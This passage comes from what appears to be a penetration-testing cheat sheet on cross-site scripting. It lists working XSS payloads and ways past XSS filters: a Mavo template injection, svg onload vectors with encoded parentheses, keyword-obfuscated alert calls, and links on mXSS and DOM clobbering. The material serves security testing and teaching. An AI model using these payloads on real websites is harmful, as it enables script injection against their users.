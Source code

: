 That payload works in most cases, but [this great resource](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs) has a bunch of other recommendations for various versions you may want to try.

**Mavo**

```html
[self.alert(1)]
```

### XSS Filter Bypasses <a href="#xss-filter-bypasses" id="xss-filter-bypasses"></a>

**Parenthesis filtering**

Abusing HTML parsers and JS Syntax:

```html
<svg onload=alert`1`></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<svg onload=alert&#x28;1&#x29></svg>
<svg onload=alert&#40;1&#41></svg>
```

**Restricted charset**

These 3 sites will transform valid JS to horrible monstrosities that have a good shot at bypassing a lot of filters:

* [JSFuck](http://www.jsfuck.com/)
* [JSFsck – JSFuck without parentheses](https://github.com/centime/jsfsck)
* [jjencode](http://utf-8.jp/public/jjencode.html)

**Keyword filtering**

Avoiding keywords:

```html
(alert)(1)
(1,2,3,4,5,6,7,8,alert)(1)
a=alert,a(1)
[1].find(alert)
top["al”+”ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)  // Generated using parseInt("alert",30). Other bases also work
```

**mXSS and DOM Clobbering**

It’s basically impossible for XSS filters to correctly anticipate every way that HTML will be mutated by a browser and interacting libraries, so what happens is that you can sometimes sneak a XSS payload in as invalid HTML and the browser will correct it into a valid payload… which bypasses the filter.

mXSS paper with lots of details: [here](https://cure53.de/fp170.pdf)\
Talk with good info on clobbering: [here](https://www.youtube.com/watch?v=5W-zGBKvLxk)
